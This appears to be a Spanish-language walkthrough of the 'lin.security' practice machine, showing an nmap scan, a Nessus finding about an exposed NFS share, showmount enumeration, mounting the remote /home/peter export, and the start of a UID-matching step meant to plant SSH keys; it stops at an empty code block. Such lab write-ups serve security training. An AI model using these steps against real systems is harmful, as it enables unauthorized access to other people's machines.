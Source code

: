 # Machine lin.security-1

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -sV -sC 192.168.0.22
``` 
2. El resultado es el siguiente:

```
PORT       STATE  SERVICE   VERSION 
22/tcp     open   ssh       OpenSSH 7.6p1 Ubuntu 4
111/tcp    open   rpcbind   2-4 (RPC #100000)
2049/tcp   open   nfs_acl   3 (RPC #100227)

``` 

## Analisis de vulnerabilidades

Voy a nessus a realizar un escaner y luego veo que tiene una vulnerabilidad critica y es esta:

**Critical ->** NFS Exported Share Information Disclosure

**Description:** At least one of the NFS shares exported by the remote server could be mounted by the scanning host. An attacker may be able to leverage this to read (and possibly write) files on remote host.

## Exploiting

1. primero investigo algunos comandos de nfs y veo un comando interesante de nombre "showmount"
Ese comando "showmount" tiene una estructura interesante y esta:
```
$ showmount [ -ade ] [ host ]
```
2. El comando "showmount" tiene esta descripción de cada opcion:
```
-a
Imprime una lista de todos los montajes remotos. Cada entrada incluye el nombre de cliente y el directorio.
-d
Imprime una lista de los directorios montados de forma remota por los clientes. 
-e
Imprime una lista de los archivos compartidos o exportados.
```
3. entonces pruebo con cada uno de esta manera:
```
$ showmount -a 192.168.0.22 -> “All mount points on 192.168.0.22:”
$ showmount -d 192.168.0.22 -> “Directories on 192.168.0.22:”
```
4. Pero el unico que arrojo un resultado interesante es la opcion "-e"
```
$ showmount -e 192.168.0.22 -> Export list for 192.168.0.22: /home/peter *
```
5. luego voy a montar ese directorio de esta manera:
```
$ mount -t nfs 192.168.0.22:/home/peter linsec
o
$ mount -t nfs 192.168.0.22:/home/peter linsec -o nolock
```
6. pero antes en la carpeta de “/home” creamos una carpeta de nombre "linsec"
7. Luego le cambio el UID a mi usuario mrandrew por el UID 1001, esto es con el fin de que investigue en google y el UID de la maquina victima tiene que ser igual al usuario que tengo en mi maquina de Kali con el fin de que las llaves ssh tengan compatibilidad y es de esta manera:
```
```